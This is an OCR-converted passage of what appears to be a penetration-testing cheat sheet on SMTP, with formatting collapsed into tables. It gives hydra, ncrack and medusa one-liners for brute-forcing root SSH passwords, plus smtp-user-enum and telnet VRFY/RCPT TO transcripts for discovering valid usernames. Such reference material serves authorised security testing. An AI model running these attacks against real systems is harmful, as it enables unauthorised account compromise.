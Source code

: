 |------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Or automate this with nmap plugin smtp-ntlm-info.nse

Sniffing

Check if you sniff some password from the packets to port 25

Credentials

Authentication Bruteforcing

| 1 2 3  | hydra -l root -P passwords.txt [-t 32] \<IP\> ssh ncrack -p 22 --user root -P passwords.txt \<IP\> [-T 5] medusa -u root -P 500-worst-passwords.txt -h \<IP\> -M ssh  |
|--------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Enumeration Username With Bruteforce

| 1  | smtp-user-enum -M VRFY -U users.txt -t \<IP\>  |
|----|------------------------------------------------|

![Example smtp-user-enum.pl output for 'VRFY' command.](media/6875732c2927a479cff900013d589eac.png)Example smtp-user-enum.pl output for ‘VRFY’ command.

Authentication is not always needed

RCPT TO

| 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15  | \$ telnet 10.0.10.1 25 Trying 10.0.10.1... Connected to 10.0.10.1. Escape character is '\^]'. 220 myhost ESMTP Sendmail 8.9.3 HELO x 250 myhost Hello [10.0.0.99], pleased to meet you MAIL FROM:test@test.org 250 2.1.0 test@test.org... Sender ok RCPT TO:test 550 5.1.1 test... User unknown RCPT TO:admin 550 5.1.1 admin... User unknown RCPT TO:ed 250 2.1.5 ed... Recipient ok  |
|--------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

VRFY

| 1 2 3 4 5 6 7 8 9 10 11 12 13  | \$ telnet 10.0.0.1 25 Trying 10.0.0.1... Connected to 10.0.0.1. Escape character is '\^]'. 220 myhost ESMTP Sendmail 8.9.3 HELO 501 HELO requires domain address HELO x 250 myhost Hello [10.0.0.99], pleased to meet you VRFY root 250 Super-User \<root@myhost\> VRFY blah 550 blah... User unknown  |
|--------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
